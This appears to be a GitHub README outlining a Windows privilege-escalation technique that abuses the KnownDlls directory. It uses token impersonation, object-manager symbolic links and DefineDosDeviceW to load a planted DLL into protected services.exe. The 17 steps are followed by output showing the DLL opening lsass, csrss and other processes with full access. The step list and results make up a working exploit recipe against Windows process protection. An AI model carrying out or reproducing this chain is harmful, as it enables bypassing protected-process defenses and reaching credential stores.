





# KnownDlls

01. we try got tokens (primary and impersonation) with write access for \GLOBAL?? and with required privileges
02. impersonate
03. create symbolic link "\GLOBAL??\EventAggregation.dll" => "\BaseNamedObjects\MySection"

04. revert to self
05. create 2 links: "\??\KnownDlls" => "\GLOBAL??" and "\??\GLOBALROOT" => "\??"

06. DefineDosDeviceW ("GLOBALROOT\KnownDlls\EventAggregation.dll", "\BaseNamedObjects\MySection");

07. create file "\systemroot\temp\PPL.dll"
08. create image section "\BaseNamedObjects\MySection" from "\systemroot\temp\PPL.dll"

09. start "services.exe" with current thread id in command line
10. alertable wait for services.exe exit
11. if PPL.dll loaded to services.exe (as EventAggregation.dll ) it send alert to our thread
12. if and only if wait finished with STATUS_ALERTED this mean all is ok and PPL.dll take control
13. delete "\KnownDlls\EventAggregation.dll" link
14. show info and exit
15. PPL.dll redirect exe entry point to self
16. PPL.dll enumerate all processes in system and try open each with PROCESS_ALL_ACCESS
17. only processes with higher level than 1.6 ( Light.WinTcb ) is fail to open - System, Registry and Memory Compression (all 3 is 2.7 - Protected.WinSystem )

c0000022 00000004 System [2.7]
c0000022 0000007c Registry [2.7]
00000000 000001a0 smss.exe [1.6]  >>  \SystemRoot\System32\smss.exe
00000000 00000228 csrss.exe [1.6]  >>  %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,20480,768 Windows=On SubSystemType=Windows ServerDll
00000000 0000027c wininit.exe [1.6]  >>  wininit.exe
00000000 00000284 csrss.exe [1.6]  >>  %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,20480,768 Windows=On SubSystemType=Windows ServerDll
00000000 000002c8 services.exe [1.6]  >>  C:\WINDOWS\system32\services.exe
00000000 000002e4 winlogon.exe  >>  winlogon.exe
00000000 0000031c lsass.exe  >>  C:\WINDOWS\system32\lsass.exe
00000000 00000398 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k DcomLaunch -p
00000000 000003b4 fontdrvhost.exe  >>  "fontdrvhost.exe"
00000000 000003b8 fontdrvhost.exe  >>  "fontdrvhost.exe"
00000000 000001e0 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k RPCSS -p
00000000 000001fc svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k DcomLaunch -p -s LSM
00000000 000001bc dwm.exe  >>  "dwm.exe"
00000000 00000450 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s DsmSvc
00000000 0000045c svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k NetworkService -s TermService
00000000 000004f8 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalServiceNetworkRestricted -p -s EventLog
00000000 00000504 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s ProfSvc
00000000 00000510 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s NcbService
00000000 0000050c svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s Schedule
00000000 00000524 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted -p -s TimeBrokerSvc
00000000 000005b4 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalServiceNoNetwork -p
00000000 000005d0 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -s CertPropSvc
00000000 000005fc svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s UserManager
00000000 00000614 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalSystemNetworkRestricted -p -s hidserv
00000000 00000638 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalService -p -s nsi
00000000 00000668 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalServiceAndNoImpersonation -s SCardSvr
00000000 00000678 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -s SCPolicySvc
00000000 000006e4 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted -p -s Dhcp
00000000 00000768 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s UmRdpService
00000000 000007c4 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k NetworkService -p -s NlaSvc
00000000 00000590 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted -p -s NgcCtnrSvc
00000000 00000898 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalService -p -s netprofm
00000000 00000948 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k NetworkService -p -s Dnscache
00000000 00000968 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s Winmgmt
00000000 000009d8 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalService -p -s EventSystem
00000000 00000aa0 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k netsvcs -p -s BITS
00000000 00000ae8 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalSystemNetworkRestricted -p -s SysMain
00000000 00000af0 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k netsvcs -p -s Themes
00000000 00000af8 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s SENS
00000000 00000b34 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s AudioEndpointBuilder
00000000 00000b3c svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalService -p -s FontCache
c0000022 00000b60 Memory Compression [2.7]
00000000 00000bdc svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalServiceNetworkRestricted -p
....
00000000 00000e48 services.exe [1.6]  >>  2340

 
